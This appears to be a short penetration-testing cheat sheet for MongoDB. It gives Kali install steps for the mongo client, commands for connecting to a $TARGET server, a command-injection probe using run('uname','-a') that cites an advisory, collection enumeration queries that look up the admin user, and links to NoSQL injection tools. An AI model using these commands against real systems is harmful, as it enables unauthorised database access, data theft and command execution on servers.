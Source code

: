 [https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/](https://docs.mongodb.com/manual/tutorial/install-mongodb-on-debian/)

```bash - kali
wget -qO - https://www.mongodb.org/static/pgp/server-5.0.asc | sudo apt-key add -
```

```bash - kali
sudo apt-get install gnupg
```

```bash - kali
wget -qO - https://www.mongodb.org/static/pgp/server-5.0.asc | sudo apt-key add -
```

```bash - kali
echo "deb http://repo.mongodb.org/apt/debian buster/mongodb-org/5.0 main" | sudo tee /etc/apt/sources.list.d/mongodb-org-5.0.list
```

```bash - kali
sudo apt-get update
```

```bash - kali
sudo apt-get install -y mongodb-org
```

```bash - kali
mongo "mongodb://$TARGET:27017"
```

```bash - kali
mongo "mongodb://username@$TARGET:27017"
```

#### Command Injection Check
https://cxsecurity.com/issue/WLB-2013030212
```bash - kali
run("uname","-a")
```

#### Database enumeration
```SQL
show dbs
```

```SQL
use $DATABASE
```

```SQL
show collections
```

```SQL
db.<COLLECTION_NAME>.find()
```

```SQL
db.current.find({"username":"admin"})
```

---

#### Tools
https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

https://github.com/C4l1b4n/NoSQL-Attack-Suite
